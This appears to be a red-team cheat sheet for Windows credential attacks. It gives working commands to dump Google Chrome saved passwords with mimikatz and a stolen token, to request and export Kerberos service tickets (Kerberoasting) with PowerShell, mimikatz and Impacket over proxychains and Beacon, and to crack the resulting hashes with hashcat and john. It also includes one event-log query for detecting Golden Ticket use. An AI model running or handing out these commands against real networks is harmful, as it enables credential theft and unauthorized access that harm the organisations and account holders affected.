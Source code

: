 Dump Google Chrome passwords
```
	shell copy "C:\users\kobrien\appdata\local\google\chrome\user data\default\Login Data" C:\users\public\libraries\ld.dat
	
	steal_token <user pid>

	mimikatz @dpapi::chrome /in:C:\users\public\libraries\ld.dat /unprotect
```

Detecting Golden Ticket use on a DC
```
	<QueryList>
	  <Query Id="0" Path="Security">
	    <Select Path="Security">
	        *[System[EventID='4768']]
	        and
	        *[EventData[Data[@Name='TargetUserName'] != 'ANONYMOUS LOGON']]
	        and
	        *[EventData[Data[@Name='ServiceName'] = 'krbtgt']]
	        and
	        *[EventData[Data[@Name='TicketEncryptionType'] = '0x17']]
	        </Select>
	  </Query>
	</QueryList>
```

## Kerberoast
https://github.com/nidem/kerberoast
https://room362.com/post/2016/kerberoast-pt1/
https://room362.com/post/2016/kerberoast-pt2/
https://room362.com/post/2016/kerberoast-pt3/
```
	Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/host.domain.com" 
```

Use mimikatz to export SPN Tikets once requested (Generates one file per ticket unless base64 option is used)
```
	mimkatz kerberos::list /export
	Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'
```

Impacket method of extracting SPN tickets and output hashes in the correct format for John via Proxychains and Beacon (Preferred)
```
	proxychains python ./GetUserSPNs.py -request domain.com/domainuser:password -dc-ip <domain controller IP> -outputfile <out.dump>
```

Cracking the hashes
```
	./hashcat -m 13100 -a 0 spns.dump ./wordlists/* -r rules/dive.rule

	./john --format=krb5tgs spns.dump --wordlist=
```
